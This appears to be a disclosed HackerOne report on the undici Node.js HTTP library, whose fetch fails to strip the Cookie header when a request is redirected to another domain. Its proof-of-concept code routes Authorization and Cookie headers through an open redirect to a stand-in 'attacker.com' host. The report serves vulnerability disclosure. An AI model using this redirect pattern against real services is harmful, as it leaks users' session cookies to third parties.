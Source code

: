 # Cookie headers are not cleared in cross-domain redirect in undici-fetch

## Report Details
- **Report ID**: 2243710
- **URL**: https://hackerone.com/reports/2243710
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-11-07T15:47:49.424Z
- **Disclosed**: 2024-01-20T16:37:10.259Z

## Reporter
- **Username**: ranjit_p
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
AFFECTED MODULE
==========
undici v5.24.0

STEP TO REPRODUCE
==========
i read this security advisory https://github.com/nodejs/undici/security/advisories/GHSA-q768-x9m6-m9qp .
It says it properly cleared sensitive headers like cookie,Authorization are cleared during cross domain redirect .
So, i installed undici module and tried to reproduce above 

```
import { request } from 'undici'
const {
  statusCode,
  headers,
  trailers,
  body
} = await request('http://anysite.com/redirect.php?url=http://attacker:8182',{
        maxRedirections: 3,
        headers: {
            autHorization: 'test',
	    cookie: "ddd=dddd"
        }})

console.log('response received', statusCode)
console.log('headers', headers)

for await (const data of body) {
  console.log('data', data)
}
```
This will properly clear authorization and cookie header during cross-domain redirect  .


Now i tried with undici-fetch and it failed to clear cookie header during cross-domain redirect

```
import { fetch } from 'undici'

const res = await fetch('http://anysite.com/redirect.php?url=http://attacker.com:8182/vvv',{
        maxRedirections: 3,
        headers: {
            AutHorization: 'test',
            Cookie: "ddd=dddd"
        }})
const json = await res.json()
console.log(json)
```

here http://attacker.com:8182/ will get above cookie

## Impact

cross-domain cookie leak

## Attachments
No attachments
